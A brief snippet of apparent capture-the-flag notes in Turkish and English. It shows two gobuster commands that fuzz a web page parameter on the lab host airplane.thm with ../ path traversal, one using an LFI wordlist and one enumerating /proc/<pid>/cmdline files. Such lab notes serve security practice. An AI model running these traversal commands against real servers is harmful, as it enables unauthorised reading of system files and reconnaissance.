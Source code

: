 *** Gobuster ile lfi (Path-traversal) ***
``` bash
gobuster -w /usr/share/wordlists/lfı/lfi.txt -u http://airplane.thm:8000/?page=../../../../../ dir -o lfi.txt --exclude-length 14
```

*** Gobuster with dizin içinde arama (Path-traversal) ***
``` bash
gobuster -w num.txt -u http://airplane.thm:8000/?page=../../../../../proc/{GOBUSTER}/cmdline dir -o proc.txt --exclude-length 14
```



